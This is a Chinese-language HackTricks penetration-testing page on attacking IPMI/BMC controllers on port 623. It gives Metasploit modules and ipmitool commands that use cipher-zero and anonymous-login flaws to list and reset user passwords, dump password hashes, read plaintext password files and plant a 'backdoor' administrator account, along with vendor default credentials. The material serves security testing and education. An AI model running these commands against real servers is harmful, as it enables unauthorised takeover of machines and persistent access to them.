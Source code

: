 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

### **IPMI概述**

**[智能平台管理接口（IPMI）](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)**提供了一种标准化的方法，用于远程管理和监控计算机系统，独立于操作系统或电源状态。这项技术允许系统管理员远程管理系统，即使系统处于关闭或无响应状态，对于以下情况尤为有用：

- 操作系统引导前的配置
- 关闭电源管理
- 从系统故障中恢复

IPMI能够监视温度、电压、风扇速度和电源供应情况，同时提供库存信息、查看硬件日志，并通过SNMP发送警报。其运行所需的关键组件包括电源源和LAN连接。

自Intel于1998年推出以来，IPMI得到了众多供应商的支持，特别是通过2.0版本对串行LAN的支持，增强了远程管理功能。关键组件包括：

- **主板管理控制器（BMC）：** IPMI操作的主要微控制器。
- **通信总线和接口：** 用于内部和外部通信，包括ICMB、IPMB以及用于本地和网络连接的各种接口。
- **IPMI存储器：** 用于存储日志和数据。

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**默认端口**：623/UDP/TCP（通常在UDP上运行，但也可能在TCP上运行）

## 枚举

### 发现
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
您可以使用以下方法**识别**版本：
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI漏洞

在IPMI 2.0领域，Dan Farmer发现了一个重大的安全漏洞，通过**密码类型0**暴露了一个漏洞。这个漏洞在[Dan Farmer的研究](http://fish2.com/ipmi/cipherzero.html)中有详细记录，允许未经授权的访问，只要针对一个有效用户提供了任何密码。这个弱点在惠普（HP）、戴尔（Dell）和超微（Supermicro）等制造商的各种BMC中被发现，表明所有IPMI 2.0实现中存在普遍问题。

### 通过密码0绕过IPMI身份验证

要检测这个漏洞，可以使用以下Metasploit辅助扫描程序：
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
利用`ipmitool`可以实现对此漏洞的利用，如下所示，允许列出和修改用户密码：
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval**

该漏洞使得可以检索到任何现有用户名的盐值哈希密码（MD5和SHA1）。为了测试这个漏洞，Metasploit提供了一个模块：
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI匿名认证**

许多BMC中的默认配置允许“匿名”访问，其特征是空用户名和密码字符串。可以利用这种配置使用`ipmitool`来重置具名用户账户的密码：
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI明文密码**

IPMI 2.0中的一个关键设计选择要求在BMC中存储明文密码以进行身份验证。Supermicro将这些密码存储在诸如`/nv/PSBlock`或`/nv/PSStore`等位置，引发了重大的安全问题：
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerability**

Supermicro在其IPMI固件中包含了一个UPnP SSDP监听器，特别是在UDP端口1900上，引入了严重的安全风险。根据[Rapid7的披露](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play)详细介绍的Intel UPnP设备版本1.3.1中的漏洞，允许对BMC进行root访问：
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### 暴力破解

**HP在制造过程中会随机生成默认密码**，用于其**Integrated Lights Out (iLO)**产品。这种做法与其他制造商形成对比，后者倾向于使用**静态默认凭据**。以下是各种产品的默认用户名和密码摘要：

- **HP Integrated Lights Out (iLO)** 使用**工厂随机生成的8位字符串**作为默认密码，展示了更高的安全级别。
- 诸如**Dell的iDRAC、IBM的IMM**和**Fujitsu的Integrated Remote Management Controller**等产品使用易于猜测的密码，如"calvin"、"PASSW0RD"（使用零）和"admin"。
- 同样，**Supermicro IPMI (2.0)、Oracle/Sun ILOM**和**ASUS iKVM BMC**也使用简单的默认凭据，其密码分别为"ADMIN"、"changeme"和"admin"。

## 通过BMC访问主机

对基板管理控制器（BMC）的管理访问打开了访问主机操作系统的各种途径。一种直接的方法涉及利用BMC的键盘、视频、鼠标（KVM）功能。可以通过重新启动主机到一个root shell（使用`init=/bin/sh`）或从设置为救援磁盘的虚拟CD-ROM启动来实现这一点。这些方法允许直接操作主机的磁盘，包括插入后门、数据提取或进行安全评估所需的任何操作。然而，这需要重新启动主机，这是一个重大缺点。在不重新启动的情况下，访问正在运行的主机更加复杂，并且随着主机配置的不同而变化。如果主机的物理或串行控制台保持登录状态，可以通过BMC的KVM或串行-通过-LAN（sol）功能轻松接管它，使用`ipmitool`。探索共享硬件资源的利用，如i2c总线和Super I/O芯片，是需要进一步研究的领域。

## 从主机向BMC引入后门

在攻击配备有BMC的主机后，**可以利用本地BMC接口插入后门用户帐户**，在服务器上创建持久存在。此攻击需要在受损主机上存在**`ipmitool`**并激活BMC驱动程序支持。以下命令说明了如何使用主机的本地接口将新用户帐户注入BMC，绕过身份验证的需求。这种技术适用于各种操作系统，包括Linux、Windows、BSD，甚至DOS。
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `端口:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)
